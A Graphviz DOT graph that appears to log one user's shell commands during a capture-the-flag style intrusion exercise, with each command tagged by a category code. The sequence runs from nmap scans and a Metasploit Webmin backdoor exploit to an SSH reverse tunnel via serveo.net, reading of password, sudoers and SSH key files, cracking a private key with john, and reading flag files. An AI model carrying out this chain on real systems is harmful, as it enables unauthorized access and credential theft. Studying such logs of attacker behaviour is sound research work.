 // creating graph for user: 77
digraph {
	node [shape=box]
	4 [label="nmap 172.18.1.5 -A M0 "]
	5 [label="systemctl start ssh A16 "]
	6 [label="ssh -R blabla:22:127.0.0.1:22 serveo.net A16 "]
	8 [label="ssh root@127.0.0.1 A16 "]
	9 [label="ssh -R blabla:22:127.0.0.1:22 serveo.net A16 "]
	10 [label="ssh -R 6666:127.0.0.1:22 serveo.net A16 "]
	11 [label="vim /etc/ssh/sshd_config A16 "]
	12 [label="systemctl restart ssh A16 "]
	15 [label="nmap -p 10000 -A 172.18.1.5 A1 "]
	16 [label="msfconsole M2 "]
	17 [label="search CVE-2019-15107 A3 "]
	18 [label="use exploit/unix/webapp/webmin_backdoor M8 "]
	19 [label="show A5 "]
	20 [label="show options M5 "]
	21 [label="set LHOST 172.18.1.5 M6 "]
	48 [label="ls A10 "]
	51 [label="ls A10 "]
	53 [label="ls A10 "]
	54 [label="ls -hlA A10 "]
	56 [label="ls A10 "]
	57 [label="ls .ssh A10 A16 "]
	58 [label="cat .ssh/autorized_keys A1 A9 A11 A12 A16 A17 "]
	59 [label="cat .ssh/authorized_keys A1 A9 A11 A12 A16 A17 "]
	61 [label="ls A10 "]
	67 [label="ps aux  A9 A11 A12 A17 "]
	78 [label="ls A10 "]
	79 [label="ssh -R 6666:127.0.0.1:22 serveo.net A16 "]
	80 [label="ls A10 "]
	82 [label="nmap A1 "]
	84 [label="ls A10 "]
	87 [label="apt install nmap A1 "]
	88 [label="cat /etc/crontab] A1 A9 A11 A12 A17 "]
	89 [label="cat /etc/crontab A1 A9 A11 A12 A17 "]
	90 [label="cat /etc/cron.*/* A1 A9 A11 A12 A17 "]
	93 [label="ls -hlA A10 "]
	94 [label="ls -hlA cron* A10 "]
	96 [label="cat /etc/passwd A1 A9 A11 A12 A17 "]
	98 [label="ls A10 "]
	99 [label="ls -hlA * A10 "]
	101 [label="ls -hlA A10 "]
	102 [label="ls -hlA .ssh A10 A16 "]
	103 [label="cat .ssh/* A1 A9 A11 A12 A16 A17 "]
	104 [label="ls A10 "]
	105 [label="ls -hlA A10 "]
	108 [label="ls -hlA A10 "]
	109 [label="ls -hlA .ssh A10 A16 "]
	110 [label="cat .ssh/authorized_keys A1 A9 A11 A12 A16 A17 "]
	112 [label="ls A10 "]
	113 [label="ls -hlA A10 "]
	115 [label="ls -hlA A10 "]
	117 [label="ls -hlA A10 "]
	119 [label="ls -hlA A10 "]
	120 [label="cat * A1 A9 A11 A12 A17 "]
	121 [label="cat .* A1 A9 A11 A12 A17 "]
	122 [label="ls -hlA A10 "]
	124 [label="ls -hlA A10 "]
	125 [label="ls -hlA * A10 "]
	127 [label="cat .bash_history M11 "]
	128 [label="ls -hlA A10 "]
	129 [label="nmap A1 "]
	130 [label="ls -hlA A10 "]
	131 [label="cat .bash_history A1 A9 A12 A17 "]
	133 [label="ls -hlA A10 "]
	134 [label="ssh eve@10.1.17.4 M16 "]
	136 [label="ls A10 "]
	137 [label="ls -hlA A10 "]
	140 [label="ls -hlA .ssh A10 "]
	142 [label="ls -hlA A10 "]
	143 [label="cat .bash_history A1 A9 A12 A17 "]
	144 [label="ls -hlA A10 "]
	145 [label="ls -hlA /tmp A10 "]
	146 [label="alias ll='ls -hlA' A10 "]
	154 [label="cat root/.bash_history A1 A9 A12 A17 "]
	170 [label="cat syslog A1 A9 A12 A17 "]
	172 [label="zcat syslog.1 A1 A9 A12 A17 "]
	173 [label="cat syslog.1 A1 A9 A12 A17 "]
	179 [label="cat sudoers A1 A9 A12 A17 "]
	183 [label="alias ll='ls -hlA' A10 "]
	190 [label="cat id_rsa M12 "]
	192 [label="alias ll='ls -hlA' A10 "]
	197 [label="gpg2john id_rsa A14 "]
	198 [label="apt install ssh2john A14 "]
	199 [label="wget https://raw.githubusercontent.com/magnumripper/JohnTheRipper/bleeding-jumbo/run/ssh2john.py A14 "]
	200 [label="chmod +x ssh2john.py A14 A15 "]
	201 [label="./ssh2john.py id_rsa A14 "]
	202 [label="./ssh2john.py id_rsa > x A14 "]
	205 [label="john --wordlist=/usr/share/wordlists/rockyou.txt x M14 "]
	209 [label="cat /home/eve/.bash_history A1 A9 A17 "]
	211 [label="ls -hlA A10 "]
	212 [label="alias ll='ls -hlA' A10 "]
	218 [label="cat /home/eve/.bash_history A1 A9 A17 "]
	220 [label="alias ll='ls -hlA' A10 "]
	224 [label="cat flag.txt M17 "]
	231 [label="cat /etc/passwd A1 A9 "]
	235 [label="cat top-secret/flag.txt A1 A9 "]
	245 [label="cat /etc/passwd A1 A9 "]
	246 [label="cat /etc/cron* A1 A9 "]
	254 [label="cat /etc/api/sources.list A1 A9 "]
	255 [label="cat /etc/apt/sources.list A1 A9 "]
	0 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 48 [constraint=false]
	48 -> 51 [constraint=false]
	51 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 61 [constraint=false]
	61 -> 67 [constraint=false]
	67 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 82 [constraint=false]
	82 -> 84 [constraint=false]
	84 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 96 [constraint=false]
	96 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 101 [constraint=false]
	101 -> 102 [constraint=false]
	102 -> 103 [constraint=false]
	103 -> 104 [constraint=false]
	104 -> 105 [constraint=false]
	105 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 112 [constraint=false]
	112 -> 113 [constraint=false]
	113 -> 115 [constraint=false]
	115 -> 117 [constraint=false]
	117 -> 119 [constraint=false]
	119 -> 120 [constraint=false]
	120 -> 121 [constraint=false]
	121 -> 122 [constraint=false]
	122 -> 124 [constraint=false]
	124 -> 125 [constraint=false]
	125 -> 127 [constraint=false]
	127 -> 128 [constraint=false]
	128 -> 129 [constraint=false]
	129 -> 130 [constraint=false]
	130 -> 131 [constraint=false]
	131 -> 133 [constraint=false]
	133 -> 134 [constraint=false]
	134 -> 136 [constraint=false]
	136 -> 137 [constraint=false]
	137 -> 140 [constraint=false]
	140 -> 142 [constraint=false]
	142 -> 143 [constraint=false]
	143 -> 144 [constraint=false]
	144 -> 145 [constraint=false]
	145 -> 146 [constraint=false]
	146 -> 154 [constraint=false]
	154 -> 170 [constraint=false]
	170 -> 172 [constraint=false]
	172 -> 173 [constraint=false]
	173 -> 179 [constraint=false]
	179 -> 183 [constraint=false]
	183 -> 190 [constraint=false]
	190 -> 192 [constraint=false]
	192 -> 197 [constraint=false]
	197 -> 198 [constraint=false]
	198 -> 199 [constraint=false]
	199 -> 200 [constraint=false]
	200 -> 201 [constraint=false]
	201 -> 202 [constraint=false]
	202 -> 205 [constraint=false]
	205 -> 209 [constraint=false]
	209 -> 211 [constraint=false]
	211 -> 212 [constraint=false]
	212 -> 218 [constraint=false]
	218 -> 220 [constraint=false]
	220 -> 224 [constraint=false]
	224 -> 231 [constraint=false]
	231 -> 235 [constraint=false]
	235 -> 245 [constraint=false]
	245 -> 246 [constraint=false]
	246 -> 254 [constraint=false]
	254 -> 255 [constraint=false]
	rankdir=LR
}
